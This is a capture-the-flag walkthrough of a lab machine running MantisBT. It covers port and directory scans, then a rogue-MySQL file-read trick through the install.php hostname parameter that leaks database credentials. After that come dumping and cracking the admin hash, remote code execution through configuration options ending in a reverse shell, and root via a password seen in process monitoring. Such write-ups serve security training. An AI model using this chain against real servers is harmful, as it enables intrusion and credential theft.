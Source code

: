 # Mantis

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.201.204
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 15:54 +08
Nmap scan report for 192.168.201.204
Host is up (0.17s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3306/tcp open  mysql
```

I did a detailed scan on these ports:

```
$ sudo nmap -p 80,3306 -sC -sV --min-rate 4000 192.168.201.204     
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 15:56 +08
Nmap scan report for 192.168.201.204
Host is up (0.18s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Slick - Bootstrap 4 Template
3306/tcp open  mysql   MySQL 5.5.5-10.3.34-MariaDB-0ubuntu0.20.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.34-MariaDB-0ubuntu0.20.04.1
|   Thread ID: 37
|   Capabilities flags: 63486
|   Some Capabilities: IgnoreSigpipes, Speaks41ProtocolOld, SupportsTransactions, DontAllowDatabaseTableColumn, Support41Auth, LongColumnFlag, FoundRows, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, InteractiveClient, Speaks41ProtocolNew, SupportsLoadDataLocal, ODBCClient, SupportsCompression, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: E!sB/b!zhxE.VGAOJd;9
|_  Auth Plugin Name: mysql_native_password
```

### Web Enumeration

Port 80 hosted a static page:

<figure><img src="../../../.gitbook/assets/image (509).png" alt=""><figcaption></figcaption></figure>

I ran a `gobuster` on this website, and it did find a few directories of interest:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.201.204/ -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.201.204/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/08 15:57:35 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 316] [--> http://192.168.201.204/css/]
/js                   (Status: 301) [Size: 315] [--> http://192.168.201.204/js/]
/fonts                (Status: 301) [Size: 318] [--> http://192.168.201.204/fonts/]
/bugtracker           (Status: 301) [Size: 323] [--> http://192.168.201.204/bugtracker/]
```

`/bugtracker` looks interesting. It brought me to a login page stating that the admin directory is a security risk.&#x20;

<figure><img src="../../../.gitbook/assets/image (336).png" alt=""><figcaption></figcaption></figure>

I tried to access the `/admin` panel but it didn't work. I took a look at the Github repository for this software and tried to access the other files within the admin panel, which worked:

{% embed url="https://github.com/mantisbt/mantisbt" %}

<figure><img src="../../../.gitbook/assets/image (395).png" alt=""><figcaption></figcaption></figure>

At the bottom of the page, there are options to Upgrade the SQL database:

<figure><img src="../../../.gitbook/assets/image (333).png" alt=""><figcaption></figcaption></figure>

If we just click on the Install button without filling in any details, we are brought to another page:

<figure><img src="../../../.gitbook/assets/image (539).png" alt=""><figcaption></figcaption></figure>

There's a configuration file mentioned at the bottom of the page, and it also shows that the web page is able to interact with the SQL instance.&#x20;

### Rogue MySQL LFI --> MySQL Creds

I did a lot more reading about `install.php` and the other components related to SQL (because SQL is publicly facing for some reason) of the admin panel and came across this CVE:

{% embed url="https://mantisbt.org/bugs/view.php?id=23173" %}

This involves using a Rogue SQL server to exploit an LFI:

{% embed url="https://github.com/allyshka/Rogue-MySql-Server/blob/master/roguemysql.php" %}

We just have to visit `install.php?install=3&hostname=192.168.45.191` to run it, and it works!

<figure><img src="../../../.gitbook/assets/image (157).png" alt=""><figcaption></figcaption></figure>

We can use this to read the `config_inc.php` file mentioned earlier:

```
$ php sql.php
Enter filename to get [/etc/passwd] > /var/www/html/bugtracker/config/config_inc.php
[.] Waiting for connection on 0.0.0.0:3306
[+] Connection from 192.168.201.204:47156 - greet... auth ok... some shit ok... want file... 
[+] /var/www/html/bugtracker/config/config_inc.php from 192.168.201.204:47156:
<?php
$g_hostname               = 'localhost';
$g_db_type                = 'mysqli';
$g_database_name          = 'bugtracker';
$g_db_username            = 'root';
$g_db_password            = 'SuperSequelPassword';

$g_default_timezone       = 'UTC';

$g_crypto_master_salt     = 'OYAxsrYFCI+xsFw3FNKSoBDoJX4OG5aLrp7rVmOCFjU=';
```

This grants us the MySQL creds, which we can use to login:

<figure><img src="../../../.gitbook/assets/image (626).png" alt=""><figcaption></figcaption></figure>

### Bugtracker Creds --> RCE

With access to the database, we can view the password of the administrator of the MantisBT instance.&#x20;

```
MariaDB [bugtracker]> select * from mantis_user_table;
+----+---------------+----------+-------------------+----------------------------------+---------+-----------+--------------+-------------+-----------------------------+--------------------+------------------------------------------------------------------+------------+--------------+
| id | username      | realname | email             | password                         | enabled | protected | access_level | login_count | lost_password_request_count | failed_login_count | cookie_string                                                    | last_visit | date_created |
+----+---------------+----------+-------------------+----------------------------------+---------+-----------+--------------+-------------+-----------------------------+--------------------+------------------------------------------------------------------+------------+--------------+
|  1 | administrator |          | root@localhost    | c7870d0b102cfb2f4916ff04e47b5c6f |       1 |         0 |           90 |           5 |                           0 |                  0 | Tgl-0N5B643JKwIwNgD9s5dKRU_gdBsXawwO7p3ZaGM2ZI4gckyB84AmBRq-IFA7 | 1651296959 |   1651292492 |
|  2 | test123       |          | test123@gmail.com | 3a85acb13b850e7b8e2b53331becc726 |       1 |         0 |           25 |           0 |                           0 |                  1 | TORSv6oU4EXOyA4cqXXgBod5RJ3vY445ArdZ9uS795NfqWdsKib7OMQGfiMOUAbp | 1688803375 |   1688803375 |
+----+---------------+----------+-------------------+----------------------------------+---------+-----------+--------------+-------------+-----------------------------+--------------------+------------------------------------------------------------------+------------+--------------+
```

This hash can be cracked on CrackStation:

<figure><img src="../../../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

Now, there are RCE exploits for this, but the one from `searchsploit` also abuses another exploit to do with password resetting for the administrator user.

First of all, that doesn't seem to work for this machine, and secondly, we already have the administrator password. In this case, I manually exploited the machine while using the PoC as a guideline.&#x20;

We can first login as the administrator:

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Then, head to `/bugtracker/adm_config_report.php` and create the following Configuration Options:

<figure><img src="../../../.gitbook/assets/image (6) (2).png" alt=""><figcaption></figcaption></figure>

Then, just visit `/bugtracker/workflow_graph_img.php`, and we will receive a reverse shell:

<figure><img src="../../../.gitbook/assets/image (7) (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Pspy Mantis Creds --> Root

We can grab the user flag from the user `mantis`. Afterwards, we can find some interesting files within their home directory:

```
www-data@mantis:/home/mantis/db_backups$ ls -la
total 52
drwxr-xr-x 2 mantis mantis  4096 Jan 30 16:15 .
drwxr-xr-x 3 mantis mantis  4096 May 17  2022 ..
-rw-rw-r-- 1 mantis mantis 37130 Jul  8 08:44 1652766150.sql
-rwx------ 1 mantis mantis   104 May 17  2022 backup.sh
```

The file was recently edited, so I ran `pspy64` on the machine to see what `backup.sh` was doing.

```
2023/07/08 08:46:01 CMD: UID=1000 PID=5746   | /bin/sh -c bash /home/mantis/db_backups/backup.sh                                                                                          
2023/07/08 08:46:01 CMD: UID=1000 PID=5745   | /bin/sh -c bash /home/mantis/db_backups/backup.sh                                                                                          
2023/07/08 08:46:01 CMD: UID=1000 PID=5747   | mysqldump -u bugtracker -pBugTracker007 bugtracker
```

There was a password present. Using that, we can `su` to `mantis`, who can run `sudo` on everything without a password.

<figure><img src="../../../.gitbook/assets/image (4) (7).png" alt=""><figcaption></figcaption></figure>

Rooted!
